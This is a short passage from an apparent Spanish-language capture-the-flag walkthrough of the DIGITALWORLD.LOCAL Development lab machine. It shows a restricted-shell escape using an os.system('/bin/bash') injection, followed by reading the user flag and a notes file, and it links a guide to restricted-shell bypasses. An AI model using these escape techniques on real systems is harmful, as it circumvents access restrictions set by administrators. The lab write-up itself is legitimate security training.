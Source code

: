 <img src="https://github.com/El-Palomo/DIGITALWORLD.LOCAL-DEVELOPMENT/blob/main/devi11.jpg" width=80% />


- Existen muchas técnicas para ROMPER una SHELL RESTRINGIDA. Aquí hay un manual super lindo: https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf. Yo me conocía el de VIM por ejemplo.



```
intern:~$ echo os.system("/bin/bash )
sh: 1: Syntax error: "(" unexpected
intern:~$ echo os.system("/bin/bash")
intern@development:~$ ls
access	local.txt  work.txt
intern@development:~$ ls -la
total 40
drwxr-xr-x 6 intern intern 4096 Mar 16 00:00 .
drwxr-xr-x 5 root   root   4096 Jun 14  2018 ..
drwxrwxrwx 9 intern intern 4096 Jul 16  2018 access
-rw------- 1 intern intern  102 Mar 15 22:28 .bash_history
drwx------ 2 intern intern 4096 Jul 16  2018 .cache
drwx------ 3 intern intern 4096 Jul 16  2018 .gnupg
-rw------- 1 intern intern  322 Mar 16 00:00 .lhistory
drwxrwxr-x 3 intern intern 4096 Jul 15  2018 .local
-rw-r--r-- 1 intern intern   46 Dec 26  2018 local.txt
-rw-r--r-- 1 intern intern  299 Dec 26  2018 work.txt
intern@development:~$ cat local.txt
Congratulations on obtaining a user shell. :)
intern@development:~$ cat work.txt 
1.	Tell Patrick that shoutbox is not working. We need to revert to the old method to update David about shoutbox. For new, we will use the old director's landing page.

2.	Patrick's start of the third year in this company!
```